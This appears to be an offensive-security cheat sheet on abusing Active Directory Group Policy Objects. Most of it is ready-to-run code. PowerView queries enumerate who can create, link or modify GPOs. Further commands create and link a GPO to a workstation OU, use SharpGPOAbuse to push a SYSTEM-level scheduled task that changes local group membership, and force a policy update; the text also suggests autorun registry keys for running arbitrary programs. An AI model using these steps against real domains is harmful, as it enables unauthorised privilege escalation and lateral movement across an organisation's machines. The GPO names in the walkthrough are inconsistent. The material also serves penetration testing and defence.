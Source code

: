 ## Group Policies

A group policy is essentially a controlled method of pushing configurations to users and computers in a domain/forest. It's a central configuration repository. The GPO will be applied to an organizational unit, and any members of that OU have the GPO applied to them. By default, Domain Administrators are the only users with this privilege. 

🚩 However, if you find another user with GPO's creation/modification/linking to OUs allowed, it's not uncommon to be able to create a privilege escalation or lateral movement opportunity. 🚩

### Attacking GPOs
 
Bloodhound should show this edge, but doing it manually can be done with Powerview.

 https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1 

```powershell
# Returns an SID of any users and their rights
Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=MATRIX,DC=LOCAL" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" } | select ObjectDN, ActiveDirectoryRights,SecurityIdentifier

# Find users/groups who can write to the GP-Link attribute on OUs
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, SecurityIdentifier

# Find users/groups who can modify existing GPOs
Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|WriteDacl|WriteOwner" -and $_.SecurityIdentifier -match "ConvertFrom-SID S-1-5-21-3619591028-1129495842-3952564-[\d]{4,10}" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier

# Convert the SID to a target user
ConvertFrom-SID S-1-5-21-3619591028-1129495842-3952564-1001

# Resolve a GPO by ObjectDN to its name
Get-DomainGPO -Name "{AD7EE1ED-CDC8-4994-AE0F-50BA8B264829}" -Properties DisplayName
```

Once we know our capabilities, we'll need to abuse the GPO's. Remote Service Administration Tools allow a user to administer GPOs. We'll have to check this is installed:

```powershell
Get-Module -List -Name GroupPolicy | select -expand ExportedCommands

# If not - install with...
Install-WindowsFeature –Name GPMC
```

Then we'll create a GPO:

```powershell
# Apply to all workstations (Just an example)
New-GPO -Name "PowerShell Management" | New-GPLink -Target "OU=Workstations,DC=MATRIX,DC=LOCAL"
```

With the GPO created, you can use SharpGPOAbuse to abuse it. This has many attack vectors which you need to choose depending on your situation.

 https://github.com/FSecureLABS/SharpGPOAbuse 

```powershell
# Add a task to the computer that executes as System modifying our newly added PowerShell Management GPO.
C:\SharpGPOAbuse.exe --AddComputerTask --TaskName "Update Powershell" --Author NT AUTHORITY\SYSTEM --Command "%COMSPEC%" --Arguments "/c net localgroup toby /add" --GPOName "Powershell Logging"
```

Manually you may instead choose to perform an attack such as setting an autorun registry key on each machine it targets so that when they next restart, the target application (Which is whatever you please) gets run. Use `Set-GPPrefRegistryValue` to manually set a registry key via group policy.

Force Group Policy Updates:

```powershell
gpupdate /target:dc04 /force
```

